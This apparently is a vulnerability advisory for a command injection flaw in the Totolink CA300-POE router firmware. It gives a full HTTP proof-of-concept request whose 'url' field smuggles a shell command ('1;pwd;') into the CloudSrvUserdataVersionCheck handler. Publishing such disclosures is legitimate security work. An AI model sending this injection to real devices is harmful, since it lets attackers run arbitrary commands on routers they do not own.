 ## Totolink CA300-POE command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink CA300-POE
* Version: V6.2c.884_B20180522

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://totolink.id/data/upload/20181119/ba6d1ef945396a396fb70094a66d5e81.zip

### Vulnerability details

Totolink CA300-POE V6.2c.884_B20180522 was found to contain a command injection vulnerability in the `CloudSrvUserdataVersionCheck` function via the `url` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 132
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl": "CloudSrvUserdataVersionCheck",
    "mode": "1",
    "url": "1;pwd;"
}
```


